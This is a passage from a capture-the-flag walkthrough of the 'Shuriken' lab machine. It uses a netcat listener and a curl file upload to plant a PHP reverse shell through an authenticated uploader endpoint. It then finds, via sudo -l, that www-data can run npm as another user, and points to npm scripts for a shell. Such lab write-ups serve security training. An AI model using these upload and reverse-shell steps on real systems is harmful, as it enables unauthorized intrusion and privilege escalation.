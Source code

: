   

*   Command injection doesn't work

*   Trying file upload, using php-reverse-shell, and the u param for the HTTP Authentication

First start the listener

```
nc -lvp 1234
```

  

```
crazyeights@es-base:~/tools$ curl -F "file=@php-reverse-shell.php" -F "plupload=1" -F "name=rshell.php" "http://broadcast.shuriken.local/actions/beats_uploader.php" -u developers:9972761drmfsls

creating file{"success":"yes","file_name":"16091743966af9ed","extension":"php","file_directory":"CB_BEATS_UPLOAD_DIR"}
```

Go to the location of the uploaded file to run the script. The filename is randomly generated, and returned in the response from the server.

![](/assets/images/shuriken/s6.png)

### Privilege Escalation:

Now that we have a session as user www-data we can find user and root flags.

**Checking if www-data can execute anything with elevated permissions:**

```
?>$ sudo -l
Matching Defaults entries for www-data on shuriken:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on shuriken:
    (server-management) NOPASSWD: /usr/bin/npm
$ 
```

www-data can run npm with the permissions of the user server-management without a password. Use npm script functionality to get a shell.
